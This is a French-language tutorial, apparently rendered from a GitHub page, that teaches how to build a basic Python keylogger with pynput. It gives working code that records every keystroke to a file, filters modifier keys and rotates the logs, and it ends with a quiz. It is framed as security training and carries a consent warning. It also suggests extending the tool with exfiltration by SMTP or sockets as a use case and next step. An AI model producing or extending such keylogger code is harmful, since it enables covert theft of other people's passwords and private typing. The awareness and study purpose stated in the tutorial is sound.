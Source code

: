 # Tutoriel : Créer un keylogger basique pour s'entraîner

## 🎯 Objectif  
Concevoir un keylogger Python simple sauvegardant les frappes dans un fichier texte. Parfait pour comprendre leur fonctionnement et apprendre comment s'en protéger.

## 🧠 Scénario d’ancrage émotionnel  
Imaginez un consultant sécurité interceptant son propre clavier pour prouver à un client la dangerosité d’un keylogger malveillant.

---

## 🛠️ Prérequis  
- Linux (Debian/Ubuntu)  
- Python 3  
- Installer `pynput` (ou `keyboard`) via :  
  ```bash
  pip install pynput


⸻

Étape 1 – Capturer les frappes avec pynput

from pynput import keyboard

def on_press(key):
    try:
        k = key.char
    except AttributeError:
        k = f"[{key.name.upper()}]"
    print(k, end='', flush=True)
    with open("keylogs.txt", "a", encoding="utf-8") as f:
        f.write(k)

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()

	•	key.char pour lettres, sinon key.name (ex. [ENTER])
	•	Ouverture en append pour ne pas effacer les logs

⸻

🧩 Étape 2 – Filtrer les touches importantes

Amélioration : ignorer certaines touches comme les contrôles :

ignore = {keyboard.Key.shift, keyboard.Key.ctrl, keyboard.Key.alt}
def on_press(key):
    if key in ignore:
        return
    # log comme avant


⸻

🔄 Étape 3 – Rotation simple des logs (éviter fichiers trop gros)

import os

if os.path.exists("keylogs.txt") and os.path.getsize("keylogs.txt") > 1024*100:
    os.rename("keylogs.txt", "keylogs.old.txt")

Exécuté avant chaque écriture.

⸻

🧠 Analogies & pièges
	•	Caméra cachée : vous captez tout, mais cela peut être illégal sans consentement.
	•	⚠️ Attention : utiliser uniquement sur votre propre machine.
	•	Filtrage important : ne pas logger des touches non utiles.

⸻

🧪 Quiz
	1.	Pourquoi utiliser listener.join() ?
	2.	Que se passe-t-il si on oublie encoding="utf-8" ?
	3.	Pourquoi ignorer ctrl, shift… ?
	4.	Quels risques si le fichier log grossit trop ?
	5.	Comment éviter la perte de données si le script s’interrompt ?

⸻

✅ Cas d’usage
	•	Workshop de sensibilisation
	•	Audit personnel de sécurité
	•	Base pour ajouter exfiltration (SMTP, socket…)

⸻

🔧 Prolongements possibles
	•	Rotations avancées ou compression des logs
	•	Envoi périodique par e-mail ou socket
	•	Interface simple pour lecture en temps réel

⸻

🎓 Résultat attendu

Un script Python minimaliste sauvegardant les frappes, avec filtrage, rotation des fichiers et structure claire.

---

### 📚 Sources  
- Implementation de base avec `pynput`   
- Exemples Windows/Linux via GeeksforGeeks   
- Techniques d’exfiltration SMTP/sockets 